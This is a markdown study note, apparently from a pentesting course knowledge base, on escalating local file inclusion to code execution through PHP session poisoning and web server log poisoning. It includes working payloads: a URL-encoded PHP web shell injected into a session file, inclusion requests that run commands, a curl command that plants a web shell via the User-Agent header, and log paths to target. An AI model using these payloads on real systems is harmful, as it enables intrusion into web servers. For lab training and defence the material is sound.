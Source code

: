 Any of the function with execute privileges from the table at the end of [[Attacks/Web/File Inclusion/Local File Inclusion (LFI)/Intro]] should be vulnerable to this attack.

## PHP Session Poisoning

the PHPSESSID cookies, which hold specific user data stored in `session` files on the back-end, and saved in `/var/lib/php/sessions/` on Linux and `C:\Windows\Temp\` on Windows, The name of the file which contains are user data is our PHPSESSID prefixed with `sess_`.

If we have PHPSESSID cookie we can try to include this session file:
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID value>
```

We need to look for a value which we have control over, which we can specify through a parameter.

Try to send a custom value:
```url
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now include the session file again to look for the change.

Write a web shell to the file:
```url
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Include the session file and execute commands:
```url
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

## Server Log Poisioning

The access.log file contains information of requests, including User-Agent, Since we can control the User-Agent Header we can use it to poison the server logs like above.

Logs in Nginx and in older versions of Apache or misconfigured have read access to low privileged users by default.

By default, `Apache` logs are located in `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows, while `Nginx` logs are located in `/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows.

We can use [LFI Wordlist](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) to fuzz for the log locations if they are not in the mentioned locations.

We can use burp or cURL to send a request with a different User-Agent:
```shell-session
Wildland4958@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

Now we can include the access log file and execute commands.

Note: The `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50) also store the User-Agent.

Some other logs we might be able to exploit:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`

For example with SSH and mail we can poison the username.

[LogPoisoner](https://github.com/nickpupp0/LogPoisoner): Log Poisoning tool.